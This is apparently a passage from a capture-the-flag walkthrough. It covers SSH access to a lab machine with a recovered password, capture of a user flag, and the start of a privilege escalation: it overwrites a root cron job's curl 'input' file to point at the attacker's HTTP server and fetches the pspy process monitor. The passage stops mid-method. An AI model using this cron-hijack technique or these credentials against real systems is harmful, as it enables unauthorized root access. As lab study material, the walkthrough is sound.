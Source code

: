 `5d<wdCbdZu)|hChXll`

## Privilege Escalation

### SSH into floris account

```
ssh floris@10.129.171.174
5d<wdCbdZu)|hChXll
```

	cat user.txt
	65dd1df0713b40d88ead98cf11b8530b

### Explore file permission / cron vulnerability

There are various ways to observe the file permission vulnerability's relationship to cron:

#### Method 1 - time stamps

	ls -la
	
```bash
total 28
drwxr-x--- 2 root   floris  4096 May 22  2018 ./
drwxr-xr-x 6 floris floris  4096 May 22  2018 ../
-rw-rw---- 1 root   floris    25 Jul 10 10:16 input		// input & report are same date/time as local PC.
-rw-rw---- 1 root   floris 14236 Jul 10 10:16 report
```

`cat input .txt`	

	url = "http://127.0.0.1"

Gets HTML root source of page:

	cat report

Test with connection to our HTTP server:

	echo 'url = "10.10.17.201"' > input

#### Method 2 - syslog

	less /var/log/syslog

#### Method 3 - pspy

Download statically compiled binary locally:

	wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s

Check that the file is an executable:

	file pspy64s

Start Simple HTTP Server:
